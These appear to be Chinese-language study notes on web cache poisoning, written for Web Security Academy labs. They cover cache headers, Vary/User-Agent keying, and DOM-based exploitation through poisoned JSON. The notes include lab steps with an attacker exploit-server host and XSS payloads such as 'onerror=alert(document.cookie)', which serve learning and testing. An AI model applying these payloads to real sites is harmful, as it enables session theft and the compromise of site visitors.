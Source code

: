 一个这样的例子是，当响应包含有关清除缓存的频率或当前缓存响应的时间的信息时：

```http
HTTP/1.1 200 OK
Via: 1.1 varnish-v4
Age: 174
Cache-Control: public, max-age=1800
```

尽管这不会直接导致web缓存中毒漏洞，但它确实为潜在的攻击者节省了一些手动操作，因为他们知道**何时发送有效负载以确保缓存**。

#### Vary header

`Vary`头指定了一个附加头的列表，即使这些头通常是未知的，也应将其视为cache key的一部分

例如，It is commonly used to specify that the `User-Agent` header is keyed

只有具有该用户代理的用户才会受到影响或影响最大用户数

```
lab：
Guess headers
X-Host: your-exploit-server-id.web-security-academy.net
comment：
<img src="https://your-exploit-server-id.web-security-academy.net/foo" />
User-Agent：log's 
```

### exploit DOM-based vulnerabilities

许多网站使用JavaScript从后端获取和处理附加数据。如果脚本以不安全的方式处理来自服务器的数据，则可能**导致各种基于DOM的漏洞**。

例如，攻击者可以通过导入包含以下负载的JSON文件的响应毒害缓存：

`{"someProperty" : "<svg onload=alert(1)>"}`

如果使用web缓存中毒使网站从服务器加载恶意JSON数据，则可能需要使用CORS授予网站对JSON的访问权限：

```http
HTTP/1.1 200 OK
Content-Type: application/json
Access-Control-Allow-Origin: *
{
"malicious json" : "malicious json"
}
```

```
lab：
Param Miner ， find X-Forwarded-Host supported
test and find script
add  Access-Control-Allow-Origin: *  to header 
change exploit name and add json data 
{
"country": "<img src=1 onerror=alert(document.cookie) />"
}

If this doesn't work, notice that the response contains the Set-Cookie header. Responses containing this header are not cacheable on this site
```
